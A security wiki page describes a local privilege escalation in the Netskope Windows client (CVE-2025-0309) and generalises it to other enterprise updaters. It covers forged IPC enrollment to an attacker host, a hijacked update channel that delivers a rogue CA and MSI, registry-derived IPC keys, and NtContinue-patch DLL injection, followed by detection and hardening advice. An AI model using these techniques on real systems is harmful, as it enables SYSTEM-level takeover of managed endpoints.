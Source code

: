 # Abusing Enterprise Auto-Updaters and Privileged IPC (e.g., Netskope stAgentSvc)

This page generalizes a class of Windows local privilege escalation chains found in enterprise endpoint agents and updaters that expose a low‑friction IPC surface and a privileged update flow. A representative example is Netskope Client for Windows < R129 (CVE-2025-0309), where a low‑privileged user can coerce enrollment into an attacker‑controlled server and then deliver a malicious MSI that the SYSTEM service installs.

Key ideas you can reuse against similar products:
- Abuse a privileged service’s localhost IPC to force re‑enrollment or reconfiguration to an attacker server.
- Implement the vendor’s update endpoints, deliver a rogue Trusted Root CA, and point the updater to a malicious, “signed” package.
- Evade weak signer checks (CN allow‑lists), optional digest flags, and lax MSI properties.
- If IPC is “encrypted”, derive the key/IV from world‑readable machine identifiers stored in the registry.
- If the service restricts callers by image path/process name, inject into an allow‑listed process or spawn one suspended and bootstrap your DLL via a minimal thread‑context patch.

---
## 1) Forcing enrollment to an attacker server via localhost IPC

Many agents ship a user‑mode UI process that talks to a SYSTEM service over localhost TCP using JSON.

Observed in Netskope:
- UI: stAgentUI (low integrity) ↔ Service: stAgentSvc (SYSTEM)
- IPC command ID 148: IDP_USER_PROVISIONING_WITH_TOKEN

Exploit flow:
1) Craft a JWT enrollment token whose claims control the backend host (e.g., AddonUrl). Use alg=None so no signature is required.
2) Send the IPC message invoking the provisioning command with your JWT and tenant name:

```json
{
  "148": {
    "idpTokenValue": "<JWT with AddonUrl=attacker-host; header alg=None>",
    "tenantName": "TestOrg"
  }
}
```

3) The service starts hitting your rogue server for enrollment/config, e.g.:
- /v1/externalhost?service=enrollment
- /config/user/getbrandingbyemail

Notes:
- If caller verification is path/name‑based, originate the request from a allow‑listed vendor binary (see §4).

---
## 2) Hijacking the update channel to run code as SYSTEM

Once the client talks to your server, implement the expected endpoints and steer it to an attacker MSI. Typical sequence:

1) /v2/config/org/clientconfig → Return JSON config with a very short updater interval, e.g.:
```json
{
  "clientUpdate": { "updateIntervalInMin": 1 },
  "check_msi_digest": false
}
```
2) /config/ca/cert → Return a PEM CA certificate. The service installs it into the Local Machine Trusted Root store.
3) /v2/checkupdate → Supply metadata pointing to a malicious MSI and a fake version.

Bypassing common checks seen in the wild:
- Signer CN allow‑list: the service may only check the Subject CN equals “netSkope Inc” or “Netskope, Inc.”. Your rogue CA can issue a leaf with that CN and sign the MSI.
- CERT_DIGEST property: include a benign MSI property named CERT_DIGEST. No enforcement at install.
- Optional digest enforcement: config flag (e.g., check_msi_digest=false) disables extra cryptographic validation.

Result: the SYSTEM service installs your MSI from
C:\ProgramData\Netskope\stAgent\data\*.msi
executing arbitrary code as NT AUTHORITY\SYSTEM.

---
## 3) Forging encrypted IPC requests (when present)

From R127, Netskope wrapped IPC JSON in an encryptData field that looks like Base64. Reversing showed AES with key/IV derived from registry values readable by any user:
- Key = HKLM\SOFTWARE\NetSkope\Provisioning\nsdeviceidnew
- IV  = HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProductID

Attackers can reproduce encryption and send valid encrypted commands from a standard user. General tip: if an agent suddenly “encrypts” its IPC, look for device IDs, product GUIDs, install IDs under HKLM as material.

---
## 4) Bypassing IPC caller allow‑lists (path/name checks)

Some services try to authenticate the peer by resolving the TCP connection’s PID and comparing the image path/name against allow‑listed vendor binaries located under Program Files (e.g., stagentui.exe, bwansvc.exe, epdlp.exe).

Two practical bypasses:
- DLL injection into an allow‑listed process (e.g., nsdiag.exe) and proxy IPC from inside it.
- Spawn an allow‑listed binary suspended and bootstrap your proxy DLL without CreateRemoteThread (see §5) to satisfy driver‑enforced tamper rules.

---
## 5) Tamper‑protection friendly injection: suspended process + NtContinue patch

Products often ship a minifilter/OB callbacks driver (e.g., Stadrv) to strip dangerous rights from handles to protected processes:
- Process: removes PROCESS_TERMINATE, PROCESS_CREATE_THREAD, PROCESS_VM_READ, PROCESS_DUP_HANDLE, PROCESS_SUSPEND_RESUME
- Thread: restricts to THREAD_GET_CONTEXT, THREAD_QUERY_LIMITED_INFORMATION, THREAD_RESUME, SYNCHRONIZE

A reliable user‑mode loader that respects these constraints:
1) CreateProcess of a vendor binary with CREATE_SUSPENDED.
2) Obtain handles you’re still allowed to: PROCESS_VM_WRITE | PROCESS_VM_OPERATION on the process, and a thread handle with THREAD_GET_CONTEXT/THREAD_SET_CONTEXT (or just THREAD_RESUME if you patch code at a known RIP).
3) Overwrite ntdll!NtContinue (or other early, guaranteed‑mapped thunk) with a tiny stub that calls LoadLibraryW on your DLL path, then jumps back.
4) ResumeThread to trigger your stub in‑process, loading your DLL.

Because you never used PROCESS_CREATE_THREAD or PROCESS_SUSPEND_RESUME on an already‑protected process (you created it), the driver’s policy is satisfied.

---
## 6) Practical tooling
- NachoVPN (Netskope plugin) automates a rogue CA, malicious MSI signing, and serves the needed endpoints: /v2/config/org/clientconfig, /config/ca/cert, /v2/checkupdate.
- UpSkope is a custom IPC client that crafts arbitrary (optionally AES‑encrypted) IPC messages and includes the suspended‑process injection to originate from an allow‑listed binary.

---
## 7) Detection opportunities (blue team)
- Monitor additions to Local Machine Trusted Root. Sysmon + registry‑mod eventing (see SpecterOps guidance) works well.
- Flag MSI executions initiated by the agent’s service from paths like C:\ProgramData\<vendor>\<agent>\data\*.msi.
- Review agent logs for unexpected enrollment hosts/tenants, e.g.: C:\ProgramData\netskope\stagent\logs\nsdebuglog.log – look for addonUrl / tenant anomalies and provisioning msg 148.
- Alert on localhost IPC clients that are not the expected signed binaries, or that originate from unusual child process trees.

---
## Hardening tips for vendors
- Bind enrollment/update hosts to a strict allow‑list; reject untrusted domains in clientcode.
- Authenticate IPC peers with OS primitives (ALPC security, named‑pipe SIDs) instead of image path/name checks.
- Keep secret material out of world‑readable HKLM; if IPC must be encrypted, derive keys from protected secrets or negotiate over authenticated channels.
- Treat the updater as a supply‑chain surface: require a full chain to a trusted CA you control, verify package signatures against pinned keys, and fail closed if validation is disabled in config.

## References
- [Advisory – Netskope Client for Windows – Local Privilege Escalation via Rogue Server (CVE-2025-0309)](https://blog.amberwolf.com/blog/2025/august/advisory---netskope-client-for-windows---local-privilege-escalation-via-rogue-server/)
- [NachoVPN – Netskope plugin](https://github.com/AmberWolfCyber/NachoVPN)
- [UpSkope – Netskope IPC client/exploit](https://github.com/AmberWolfCyber/UpSkope)
- [NVD – CVE-2025-0309](https://nvd.nist.gov/vuln/detail/CVE-2025-0309)

